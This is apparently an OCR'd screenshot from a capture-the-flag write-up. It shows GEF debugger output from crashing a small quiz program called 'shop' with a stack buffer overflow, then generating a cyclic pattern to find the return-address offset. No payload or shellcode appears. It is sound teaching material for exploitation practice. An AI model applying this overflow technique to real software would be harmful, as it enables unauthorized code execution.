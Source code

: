 ```
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00000000004052a0  →  "Nope!!\n my favorite OS?\nions right, you win a te[...]"
$rdi   : 0x00007ffff7f9c710  →  0x0000000000000000
$rip   : 0x000000000040147d  →  <question_1+0078> ret 
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x00007ffff7f38cb0  →  <__strcmp_sse42+0870> pslldq xmm2, 0x6
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdf08  →  0x00007fffffffe27f  →  "COLORFGBG=15;0"
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2c0  →  0x0000000000000000
$r15   : 0x0000000000403e18  →  0x0000000000401200  →  <__do_global_dtors_aux+0000> endbr64 
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdda8│+0x0000: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n"   ← $rsp ←
0x00007fffffffddb0│+0x0008: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n"
0x00007fffffffddb8│+0x0010: "AAAAAAAAAAAAAAAAAAAAAA\n"
0x00007fffffffddc0│+0x0018: "AAAAAAAAAAAAAA\n"
0x00007fffffffddc8│+0x0020: "AAAAAA\n"
0x00007fffffffddd0│+0x0028: 0x0000000000402178  →  "If you get all the questions right, you win a tedd[...]"
0x00007fffffffddd8│+0x0030: 0x00000000004020f0  →  "Hey guys, I have prepared this little program to f[...]"
0x00007fffffffdde0│+0x0038: 0x0000000000000001
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401472 <question_1+006d> call   0x4010c0 <puts@plt>
     0x401477 <question_1+0072> mov    eax, 0x0
     0x40147c <question_1+0077> leave  
 →   0x40147d <question_1+0078> ret    
[!] Cannot disassemble from $PC
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "shop", stopped 0x40147d in question_1 (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40147d → question_1()
```
```
gef➤  pattern create 200 ←
[+] Generating a pattern of 200 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa ←
[+] Saved as '$_gef0'
```
```
gef➤  r ←
Starting program: /home/kali/shop 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Hey guys, I have prepared this little program to find out how much you know about me, since I have been your administrator for 2 years.
If you get all the questions right, you win a teddy bear and if you don't, you win a teddy bear and if you don't, you win trash
What is my favorite OS?
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa ←
Nope!!

```